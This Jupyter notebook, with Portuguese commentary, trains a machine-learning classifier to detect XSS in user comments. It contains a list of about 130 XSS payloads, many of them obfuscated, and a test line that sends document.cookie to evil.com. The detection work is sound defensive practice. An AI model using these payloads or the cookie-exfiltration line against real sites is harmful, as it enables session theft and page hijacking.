### **Preparação dos Dados de Treinamento**

Esta célula define duas listas de strings: **`xss`** e **`normal`**. 

A lista **`xss`** contém centenas de exemplos de ataques **XSS** (Cross-Site Scripting) em suas diversas formas, como tags `<script>`, manipuladores de eventos (`onerror`, `onload`), e ofuscações variadas.

A lista **`normal`** contém exemplos de conteúdo legítimo, como comentários de usuários, trechos de HTML seguro e código JavaScript comum.

Esses dados, gerados pelo GPT, são a base para treinar um classificador que irá distinguir entre conteúdo malicioso e seguro.

In [29]:
import pandas as pd
from sklearn.feature_extraction.text import TfidfVectorizer
from sklearn.linear_model import LogisticRegression
import pickle

# 1. Dados simples
xss = [
'<script>alert(1)</script>',
'<ScRiPt>alert(1)</ScRiPt>',
'<script > alert(1) </script>',
'<script>alert(String.fromCharCode(49))</script>',
'<script>confirm(1)</script>',
'<script>prompt(1)</script>',
'<script>eval("alert(1)")</script>',
'<script>eval(atob("YWxlcnQoMSk="))</script>',
'<script>setTimeout("alert(1)",100)</script>',
'<script>Function("alert(1)")()</script>',
'<img src=x onerror=alert(1)>',
'<IMG SRC=x onerror=alert(1)>',
'<img src=x oNeRrOr=alert(1)>',
'<img/src=x/onerror=alert(1)>',
'<img src = x onerror = alert(1)>',
'<img src=x onerror=confirm(1)>',
'<img src=x onerror=prompt(1)>',
'<img src=x onerror=eval("alert(1)")>',
'<svg onload=alert(1)>',
'<svg/onload=alert(1)>',
'<svg OnLoAd=alert(1)>',
'<svg><script>alert(1)</script></svg>',
'<math><mi//xlink:href="data:x,<script>alert(1)</script>">',
'<iframe srcdoc="<script>alert(1)</script>"></iframe>',
'<iframe src="data:text/html,<script>alert(1)</script>"></iframe>',
'<object data="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==">',
'<embed src="data:text/html,<script>alert(1)</script>">',
'<body onload=alert(1)>',
'<body onpageshow=alert(1)>',
'<details open ontoggle=alert(1)>',
'<video><source onerror=alert(1)>',
'<audio src=x onerror=alert(1)>',
'<input type=image src=x onerror=alert(1)>',
'<marquee onstart=alert(1)>',
'<link rel=stylesheet href="javascript:alert(1)">',
'<a href="javascript:alert(1)">x</a>',
'<a href="javas&#99;ript:alert(1)">x</a>',
'<a href="java\nscript:alert(1)">x</a>',
'<a href="javascript:alert(1)//">x</a>',
'<div style="background:url(javascript:alert(1))">',
'<style>@import "javascript:alert(1)";</style>',
'"><script>alert(1)</script>',
"'><script>alert(1)</script>",
'"/><script>alert(1)</script>',
'";alert(1);//',
"';alert(1);//",
'`);alert(1);//',
'"};alert(1);//',
'</script><script>alert(1)</script>',
'--><script>alert(1)</script>',
'<script><!--alert(1)//--></script>',
'<script>/*x*/alert/*y*/(1)</script>',
'<script>al\\u0065rt(1)</script>',
'<script>\\x61lert(1)</script>',
'<script>top</script>',
'<script>this</script>',
'<script>window</script>',
'<script>parent.alert(1)</script>',
'<script>self.alert(1)</script>',
'<script>globalThis.alert(1)</script>',
'<script>location="javascript:alert(1)"</script>',
'<script>document.write("<img src=x onerror=alert(1)>")</script>',
'<script>new Image().src="x";alert(1)</script>',
'<script>fetch(`x`);alert(1)</script>',
'<script>setInterval(()=>alert(1),1000)</script>',
'<script>(()=>alert(1))()</script>',
'<script>!function(){alert(1)}()</script>',
'<script>(function(){alert(1)})()</script>',
'<script>eval(String.fromCharCode(97,108,101,114,116,40,49,41))</script>',
'%3Cscript%3Ealert(1)%3C/script%3E',
'%253Cscript%253Ealert(1)%253C/script%253E',
'&lt;script&gt;alert(1)&lt;/script&gt;',
'&#60;script&#62;alert(1)&#60;/script&#62;',
'<img src=x onerror=&#97;&#108;&#101;&#114;&#116;(1)>',
'<svg onload=&#97;&#108;&#101;&#114;&#116;(1)>',
'<script>alert`1`</script>',
'<script>alert?.(1)</script>',
'<script>import("data:text/javascript,alert(1)")</script>',
'<script>onerror=alert;throw 1</script>',
'<img src=x onerror="alert(1)">',
'<img src=x onerror=\'alert(1)\'>',
'<img src=x onerror=`alert(1)`>',
'<svg><foreignObject><script>alert(1)</script></foreignObject></svg>',
'<iframe src="javascript:alert(1)"></iframe>',
'<form><button formaction="javascript:alert(1)">x</button></form>',
'<isindex action="javascript:alert(1)" type="submit">',
'<meta http-equiv="refresh" content="0;javascript:alert(1)">',
'<script src=data:text/javascript,alert(1)></script>',
'<script src=//data:text/javascript,alert(1)></script>',
'<svg><a xlink:href="javascript:alert(1)">x</a></svg>',
'<svg><animate onbegin=alert(1) attributeName=x dur=1s>',
'<svg><set onbegin=alert(1) attributeName=x>',
'<img src=x onerror=alert(1)',
'<script>alert(1)',
'<svg onload=alert(1)',
'<iframe srcdoc="<script>alert(1)">',
'${alert(1)}',
'{{constructor.constructor("alert(1)")()}}',
'<script>document.cookie</script>',
'<script>console.log(document.domain)</script>',
'<script>history.pushState({}, "", "javascript:alert(1)")</script>',
'<svg><desc><![CDATA[</desc><script>alert(1)</script>]]></svg>',
'<script>new Function`alert(1)`()</script>',
'<script>setTimeout(alert,100,1)</script>',
'<script>queueMicrotask(()=>alert(1))</script>',
'<script>Promise.resolve().then(()=>alert(1))</script>',
'<script>Reflect.apply(alert,null,[1])</script>',
'<script>Proxy(alert,{apply(){alert(1)}})()</script>',
'<script>with(window)alert(1)</script>',
'<script>({}.constructor.constructor("alert(1)")())</script>',
'<script>location.href="data:text/html,<script>alert(1)</script>"</script>',
'<script>document.body.innerHTML="<img src=x onerror=alert(1)>"</script>',
'<script>eval.call(this,"alert(1)")</script>',
'<script>Function.call(this,"alert(1)")()</script>',
'<svg/onload=confirm(1)>',
'<img src=x onerror=confirm`1`>',
'<script>top</script>',
'<script>window</script>',
'<script></script>',
'<script>Boolean(alert(1))</script>',
'<script>void alert(1)</script>',
'<script>delete alert(1)</script>',
'<script>typeof alert(1)</script>',
'<script>instanceof alert(1)</script>',
'<script>1 && alert(1)</script>',
'<script>0||alert(1)</script>',
'<script>!alert(1)</script>',
'<script>~alert(1)</script>',
'<script>alert(1)//</script>',
'<script>alert(1)/*</script>',
'<script>/*comment*/alert(1)</script>',
'<script>\nalert(1)\n</script>',
'<script>\talert(1)\t</script>',
'<script>\ralert(1)\r</script>'
]

normal = [
'<div class="container">conteudo principal</div>',
'<div id="app">carregando...</div>',
'<p>descricao do produto</p>',
'<p>comentario do usuario</p>',
'<span class="label">novo</span>',
'<a href="/home">home</a>',
'<a href="/produto/123">detalhes</a>',
'<a href="https://example.com">site</a>',
'<img src="/img/logo.png" alt="logo">',
'<img src="https://cdn.site.com/banner.jpg" alt="banner">',
'<form method="post" action="/login">',
'<form method="get" action="/search">',
'<input type="text" name="username">',
'<input type="password" name="password">',
'<input type="email" name="email">',
'<input type="number" name="quantidade">',
'<textarea name="comentario"></textarea>',
'<button type="submit">Enviar</button>',
'<button type="button" onclick="toggleMenu()">Menu</button>',
'<select name="pais"><option value="br">Brasil</option></select>',
'<ul><li>item 1</li><li>item 2</li></ul>',
'<ol><li>primeiro</li><li>segundo</li></ol>',
'<table><tr><td>1</td><td>2</td></tr></table>',
'<header><nav>menu</nav></header>',
'<footer>© 2026 empresa</footer>',
'<main><article>conteudo</article></main>',
'<section class="hero">banner</section>',
'<aside>barra lateral</aside>',
'<svg width="100" height="100"><circle cx="50" cy="50" r="40"/></svg>',
'<iframe src="https://example.com"></iframe>',
'<meta charset="UTF-8">',
'<meta name="viewport" content="width=device-width, initial-scale=1.0">',
'<link rel="stylesheet" href="/css/style.css">',
'<link rel="icon" href="/favicon.ico">',
'<style>.btn{background:blue;color:white}</style>',
'<style>@media(max-width:768px){.mobile{display:block}}</style>',
'<script src="/static/app.js"></script>',
'<script src="https://cdn.site.com/lib.js"></script>',
'<script type="application/json">{"key":"value"}</script>',
'<div data-id="123" data-role="admin"></div>',
'<div aria-label="fechar"></div>',
'<progress value="70" max="100"></progress>',
'<meter value="0.6" min="0" max="1"></meter>',
'<details><summary>mais</summary><p>info</p></details>',
'<dialog open>aviso</dialog>',
'<canvas width="200" height="200"></canvas>',
'<video controls><source src="video.mp4" type="video/mp4"></video>',
'<audio controls><source src="audio.mp3" type="audio/mpeg"></audio>',
'<picture><source media="(min-width:800px)" srcset="large.jpg"><img src="small.jpg"></picture>',
'<pre>codigo exemplo</pre>',
'<code>const x = 10;</code>',
'<blockquote>citacao longa</blockquote>',
'<strong>importante</strong>',
'<em>destaque</em>',
'<small>texto pequeno</small>',
'<mark>marcado</mark>',
'<time datetime="2026-01-01">1 jan 2026</time>',
'<address>Rua Central 123</address>',
'<bdi>texto</bdi>',
'<bdo dir="rtl">texto</bdo>',
'<template><div>modelo</div></template>',
'<noscript>habilite o javascript</noscript>',
'function validar(){ return true; }',
'function somar(a,b){ return a+b; }',
'function formatarData(d){ return new Date(d); }',
'const apiUrl = "/api/users";',
'let contador = 0;',
'var ativo = true;',
'fetch("/api/data").then(r=>r.json())',
'axios.get("/api/users")',
'console.log("debug")',
'console.error("erro")',
'console.warn("aviso")',
'if(user.isAdmin){ mostrarPainel(); }',
'for(let i=0;i<10;i++){ console.log(i); }',
'while(carregando){ aguardar(); }',
'switch(tipo){ case "a": break; }',
'try{ processar(); }catch(e){ console.error(e); }',
'class Usuario { constructor(nome){ this.nome = nome; } }',
'export default function App(){ return null; }',
'import React from "react";',
'useEffect(()=>{ carregar(); },[])',
'<div v-if="logado">Bem vindo</div>',
'<span ng-bind="usuario.nome"></span>',
'<Component title="Dashboard" />',
'{"nome":"joao","idade":30}',
'{"produtos":[{"id":1},{"id":2}]}',
'{"html":"<div>conteudo</div>"}',
'{"callback":"handleResponse"}',
'/produtos?categoria=livros&page=2',
'/api/users?limit=50&offset=0',
'https://example.com/search?q=notebook',
'https://api.site.com/v1/orders/123',
'http://localhost:3000/dashboard',
'usuario@example.com',
'contato@empresa.com.br',
'(11) 99999-9999',
'&lt;div&gt;conteudo&lt;/div&gt;',
'<pre>&lt;script&gt;example&lt;/script&gt;</pre>',
'<div style="background:url(/img/bg.png)">',
'<div style="color:red;font-size:14px">',
'<style>.alert{color:red}</style>',
'<meta name="description" content="pagina institucional">',
'<link rel="canonical" href="https://example.com">',
'<html lang="pt-BR">',
'<head><title>pagina</title></head>',
'<body><h1>titulo</h1></body>',
'<svg viewBox="0 0 100 100"><rect width="50" height="50"/></svg>',
'<img loading="lazy" src="/img/foto.jpg">',
'<input type="checkbox" checked>',
'<input type="radio" name="opcao">',
'<fieldset><legend>dados</legend></fieldset>',
'<label for="nome">Nome</label>',
'<option value="1">Um</option>',
'<datalist id="opcoes"><option value="A"></datalist>',
'<output name="resultado">42</output>',
'<ruby>漢<rt>かん</rt>字<rt>じ</rt></ruby>',
'<math><mi>x</mi><mo>=</mo><mn>5</mn></math>',
'const PI = 3.14159;',
'Math.max(1,2,3);',
'JSON.parse("{}");',
'localStorage.setItem("tema","dark");',
'sessionStorage.getItem("token");',
'document.querySelector("#app");',
'window.addEventListener("resize", handler);',
'setTimeout(()=>console.log("ok"),1000);',
'clearInterval(timer);'
]



### **2. Criação do Dataset e Extração de Características com TF-IDF**

Aqui, as listas são combinadas em um único dataset, com rótulos **`1`** para XSS e **`0`** para normal. 

Em seguida, o **`TfidfVectorizer`** é utilizado para transformar os textos em uma matriz numérica, onde cada palavra se torna uma característica e seu valor representa a importância estatística (**TF-IDF**) no documento. 

O parâmetro `max_features=10000` limita o vocabulário às 10.000 palavras mais relevantes, otimizando o desempenho do modelo.

In [30]:

# 2. Criar dataset
data = xss + normal
labels = [1]*len(xss) + [0]*len(normal)

# 3. TF-IDF
tfidf = TfidfVectorizer(max_features=10000)
X = tfidf.fit_transform(data)

# Recupera todas as palavras do vocabulário
features = tfidf.get_feature_names_out()

### **3. Visualização da Nuvem de Palavras (WordCloud)**

Esta célula gera uma nuvem de palavras a partir do vocabulário **TF-IDF**, onde o tamanho de cada palavra é proporcional ao seu peso total no dataset. 

Essa visualização ajuda a identificar rapidamente quais termos são mais frequentes e relevantes, como tags HTML (`<script>`, `<img>`) e palavras-chave de ataques XSS (`alert`, `onerror`, `eval`). 

A nuvem de palavras oferece uma intuição visual sobre o que o modelo considera importante para a classificação.



In [31]:
from wordcloud import WordCloud
import matplotlib.pyplot as plt
import numpy as np

# Obtém as palavras do vocabulário
palavras = tfidf.get_feature_names_out()

# Soma o peso TF-IDF de cada palavra em todos os documentos
pesos = np.asarray(X.sum(axis=0)).ravel()

# Cria um dicionário {palavra: peso}
frequencias = dict(zip(palavras, pesos))

# Gera a nuvem
wordcloud = WordCloud(
    width=1200,
    height=600,
    background_color="white",
    colormap="viridis"
).generate_from_frequencies(frequencias)

# Exibe

plt.imshow(wordcloud, interpolation="bilinear")
plt.axis("off")
plt.title("Word Cloud - TF-IDF Vocabulary", fontsize=18)
plt.show()

### **4. Treinamento e Avaliação do Modelo**

O dataset é dividido em conjuntos de **treino** e **teste** utilizando `train_test_split`. 

Um classificador **`GradientBoostingClassifier`** com 30 estimadores é treinado com os dados de treino. Após o treinamento, o modelo é avaliado com os dados de teste, exibindo a **matriz de confusão** e um **relatório de classificação** com métricas como precisão, recall e F1-score.

Os resultados demonstram a eficácia do modelo em distinguir entre XSS e conteúdo normal, com alta acurácia e bom equilíbrio entre as classes.

In [32]:
from sklearn.model_selection import train_test_split


X_train, X_test, y_train, y_test = train_test_split(X, labels)

from sklearn.ensemble import GradientBoostingClassifier
import numpy as np


from sklearn.metrics import confusion_matrix, classification_report


modelo = GradientBoostingClassifier(n_estimators=30).fit(X_train, y_train)
preds = modelo.predict(X_test)


print(confusion_matrix(y_test, preds))
print('\n', classification_report(y_test, preds))

[[27  1]
 [ 3 35]]

               precision    recall  f1-score   support

           0       0.90      0.96      0.93        28
           1       0.97      0.92      0.95        38

    accuracy                           0.94        66
   macro avg       0.94      0.94      0.94        66
weighted avg       0.94      0.94      0.94        66



### **5. Análise de Importância das Características**

Nesta etapa, extraímos a importância de cada palavra do vocabulário a partir do modelo treinado. 

As **5 palavras mais importantes** são exibidas em um gráfico de barras horizontal, mostrando quais termos têm maior poder de decisão para o classificador. 

Palavras como **`script`**, **`alert`** e **`onerror`** geralmente aparecem no topo, confirmando a relevância de termos típicos de ataques XSS e validando a lógica do modelo.



In [36]:
import matplotlib.pyplot as plt
import pandas as pd
import numpy as np
import seaborn as sns
%matplotlib inline

# Pegar importance
feature_names = tfidf.get_feature_names_out()
importances = modelo.feature_importances_

# Top 20
df = pd.DataFrame({'feature': feature_names, 'importance': importances})
df = df.sort_values('importance', ascending=False).head(5)

# Gráfico
fig, ax = plt.subplots(figsize=(8, 6))
bars = ax.barh(df['feature'], df['importance'], color='#2c7fb8')

plt.style.use('ggplot')
# Valores nas barras
for bar, val in zip(bars, df['importance']):
    ax.text(val + 0.001, bar.get_y() + bar.get_height()/2, f'{val:.4f}', 
            va='center', fontsize=9)

ax.set_xlabel('Importância', fontsize=12)
ax.set_title('Top 10 Features para Detecção de XSS', fontsize=14, fontweight='bold')
ax.invert_yaxis()
ax.grid(axis='x', alpha=0.3)
plt.tight_layout()
plt.show()

### **6. Teste com Novos Comentários**

Aqui, uma lista de novos comentários — incluindo tanto mensagens normais quanto tentativas de XSS — é transformada com o mesmo **`TfidfVectorizer`** usado no treinamento. 

O modelo então faz a predição para cada um, e o resultado é exibido com um emoji indicando se o comentário foi classificado como **normal** (✅) ou **malicioso** (🚨). 

Esta etapa simula o uso do modelo em um sistema real de moderação de conteúdo, demonstrando sua aplicabilidade prática.

In [21]:
comentarios = [

    # ======== Comentários normais ========

    "Produto excelente, recomendo a compra.",
    "Entrega realizada antes do prazo.",
    "Gostei bastante da qualidade do atendimento.",
    "O preço poderia ser um pouco menor.",
    "Muito bom, compraria novamente.",
    "<b>Ótimo produto!</b>",
    "<i>Parabéns pela equipe.</i>",
    "<div class='comentario'>Tudo certo.</div>",
    "Meu e-mail é usuario@email.com.",
    "Obrigado pelo suporte prestado!",

    # ======== Comentários maliciosos (XSS) ========

    "<script>alert(1)</script>",
    "<img src=x onerror=alert(1)>",
    "<svg onload=alert(1)>",
    "<iframe src='javascript:alert(1)'></iframe>",
    "<body onload=alert(1)>",
    "<script>document.cookie</script>",
    "<script>fetch('https://evil.com?c='+document.cookie)</script>",
    "\"><script>alert('XSS')</script>",
    "<a href='javascript:alert(1)'>Clique aqui</a>",
    "<script>eval(atob('YWxlcnQoMSk='))</script>",
]

In [24]:
X = tfidf.transform(comentarios)
preds = modelo.predict(X)

for comentario, pred in zip(comentarios, preds):
    classe = "🚨 XSS" if pred == 1 else "✅ Normal"
    print(f"{classe:10} -> {comentario}")

✅ Normal   -> Produto excelente, recomendo a compra.
✅ Normal   -> Entrega realizada antes do prazo.
✅ Normal   -> Gostei bastante da qualidade do atendimento.
✅ Normal   -> O preço poderia ser um pouco menor.
✅ Normal   -> Muito bom, compraria novamente.
✅ Normal   -> <b>Ótimo produto!</b>
✅ Normal   -> <i>Parabéns pela equipe.</i>
✅ Normal   -> <div class='comentario'>Tudo certo.</div>
✅ Normal   -> Meu e-mail é usuario@email.com.
✅ Normal   -> Obrigado pelo suporte prestado!
🚨 XSS      -> <script>alert(1)</script>
🚨 XSS      -> <img src=x onerror=alert(1)>
🚨 XSS      -> <svg onload=alert(1)>
🚨 XSS      -> <iframe src='javascript:alert(1)'></iframe>
🚨 XSS      -> <body onload=alert(1)>
🚨 XSS      -> <script>document.cookie</script>
🚨 XSS      -> <script>fetch('https://evil.com?c='+document.cookie)</script>
🚨 XSS      -> "><script>alert('XSS')</script>
🚨 XSS      -> <a href='javascript:alert(1)'>Clique aqui</a>
🚨 XSS      -> <script>eval(atob('YWxlcnQoMSk='))</script>


### **7. Salvando o modelo**

Após o treinamento e validação dos resultados, podemos salvar o modelo em um arquivo 

In [ ]:
import os


os.chdir('C:/Users/mathe/Documents/Jobs/modelos/xssDetector/api/src')

# 5. Salvar
with open('tfidf.pkl', 'wb') as f:
    pickle.dump(tfidf, f)

with open('model.pkl', 'wb') as f:
    pickle.dump(modelo, f)

print("Feito! Modelos salvos.")